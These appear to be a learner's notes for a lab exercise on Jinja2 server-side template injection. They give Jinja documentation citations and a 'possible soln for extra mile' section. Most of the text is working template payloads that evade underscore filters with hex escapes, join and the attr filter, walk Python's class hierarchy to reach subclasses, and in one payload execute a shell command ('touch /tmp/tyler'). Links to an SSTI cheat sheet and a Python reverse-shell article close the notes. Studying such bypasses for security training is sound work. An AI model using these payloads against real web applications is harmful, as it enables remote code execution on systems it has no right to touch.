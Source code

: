 Now that we have confirmed the bypass for the SSTI filtering is working, we can begin exploitation to obtain RCE.


1
(Pallets Projects, 2020), https://jinja.palletsprojects.com/en/2.11.x/templates/ ↩︎

2
(Pallets, 2007), https://jinja.palletsprojects.com/en/2.10.x/templates/#filters ↩︎

3
(Pallets, 2007), https://jinja.palletsprojects.com/en/2.10.x/templates/#attr ↩︎




possible soln for extra mile?
```
https://0day.work/jinja2-template-injection-filter-bypasses/
```

```
{% set string = "ssti" %}
{% set class = "\x5f\x5fclass\x5f\x5f" %}
{% set mro = "\x5f\x5fmro\x5f\x5f" %}
{% set subclasses = "\x5f\x5fsubclasses\x5f\x5f" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{{ mro_r[1] }}
```

```
{{ string|attr(["","class",""]|join)|attr(["","mro",""]|join) }}. not sure about the "only string|attr(class)"
```


```
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set bases = "__bases__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set init = ["_"*2,"init","_"*2]|join %}
{% set globals = ["_"*2,"globals","_"*2]|join %}
{% set oj = string|attr(class)|attr(mro) %}
{% set oj_subclasses = oj[1]|attr(subclasses)() %}
{% set oj_rce = oj_subclasses[60]%}
{{ oj_rce(["touch", "/tmp/tyler"])}} 
```
```
{% set string = "string" %}
{% set class = ["_"*2, "class", "_"*2]|join %} 
{{ string|attr(class) }}
```

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects
https://blog.finxter.com/python-one-line-reverse-shell/
